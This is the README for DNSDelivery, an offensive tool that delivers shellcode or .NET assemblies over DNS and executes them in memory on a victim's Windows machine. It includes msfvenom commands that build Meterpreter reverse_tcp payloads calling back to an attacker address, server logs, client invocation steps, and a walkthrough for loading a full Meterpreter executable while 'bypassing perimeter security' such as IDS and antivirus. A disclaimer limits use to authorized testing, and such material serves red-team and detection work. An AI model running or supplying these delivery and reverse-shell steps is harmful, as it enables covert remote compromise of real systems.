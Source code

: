 DNS Delivery
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

DNSDelivery provides delivery and in memory execution of shellcode or .Net assembly using DNS requests delivery channel.

DNSDelivery has to sides:
  1. The server side, coming as a single python script (`dnsdelivery.py`), which acts as a custom DNS server, serving the payload data
  2. The client side (*victim's side*), which comes in two flavors:
    - `dnsdelivery.cs`: a C# script that can be compiled with `csc.exe` to provide a Windows managed executable
    - `Invoke-DNSDelivery.ps1`: a PowerShell script providing the exact same functionnalities

In order for the whole thing to work **you need to own your domain name** and set the DNS record for that domain to point to the server that will run the `dnsdelivery.py` server side.
For local testing purposes though, you can configure the client side scripts to point to any DNS server.

Dependencies
----------------------

The only dependency is on the server side, as the `dnsdelivery.py` script relies on the external **dnslib** library. You can installing it using pip:
```
pip install dnslib
```

Configuration
----------------------

The only mandatory configurable parameter on the client side is the DNS domain name you want to use (*the one you're running the DNS server side on*).
An optionnal configurable parameter is the DNS server you want to use. By default, it will use the system's default DNS server.

  - For the C# script, you need to edit the script and set the parameters in the PARAM class, comments and variable names are pretty self-explanatory. Then compile it using the built-in C# compiler csc.exe: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:dnsdelivery.exe *.cs`

  - For the PowerShell script, you can simply pass the parameters as arguments. Once the module is loaded into powershell simply check the syntax with `Get-Help Invoke-DNSDelivery`


Usage
----------------------

***SERVER SIDE***

Call the `dnsdelivery.py script with the appropriate parameters:
  - The `type` of content being delivered: can be either `shellcode` or `assembly`
  - The `filename` which is the name (*or path*) of the file being delivered

If a `shellcode` type is to be delivered, it **must** be a **raw** type shellcode obtained, for instance, from metasploit:

```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > myShellcodeFile.raw
```

Example of delivering a shellcode:
```
root@kali:~# ./dnsdelivery.py shellcode myShellcodeFile.raw
[*] File [myShellcodeFile.raw] successfully loaded
[*] Data split into [5] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [myShellcodeFile.raw] advertised as a [shellcode] data type
```

Example of delivering a .Net assembly:
```
root@kali:~# ./dnsdelivery.py assembly peloader.exe
[*] File [peloader.exe] successfully loaded
[*] Data split into [1058] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [peloader.exe] advertised as a [assembly] data type
```

***CLIENT SIDE***

If using the C# compiled Windows executable: simply execute it, the parameters are hardcoded within the script.

If using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSDelivery> powershell
PS c:\DNSDelivery> Import-Module .\Invoke-DNSDelivery.ps1
PS c:\DNSDelivery> Invoke-DNSDelivery -DomainName mydomain.example.com -Verbose
[...]
```

Sample use cases
----------------------

I found this delivery method very useful and handy for delivering:

- any meterpreter shellcode
- full-fledged meterpreter executable (*standalone meterpreter executable, not staged*)
- any .Net assembly you can think of

while completely **bypassing perimeter security** (IDS, content analysis like AV and sandboxes on proxies, etc.).

Example of delivering a full-fledged meterpreter executable:

First create a non-staged meterpreter executable:
```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f exe-only > meterpreter.exe
```
Second, encode this executable to a base64 string:
```
root@kali:~# cat meterpreter.exe | base64 -w 0 > meterpreter.b64
```

Third paste the base64 string (*yes, it can be huge, around 3MB*) into the `peLoader.cs` (thx @SubTee) available here [peloader.cs](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) and compile this into a Windows executable (*which by the way IS a .Net assembly*).

Eventually, serve it with DNSDelivery:
```
root@kali:~# ./dnsdelivery.py assembly meterpreter_peloader.exe
```
It can be long because the data is delivered over DNS, chunk by chunk (*250 bytes per chunk*), but who cares if it takes 10 minutes and you eventually get you full-fledged meterpreter executable loaded into memory and executed on the victim's machine :-)

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*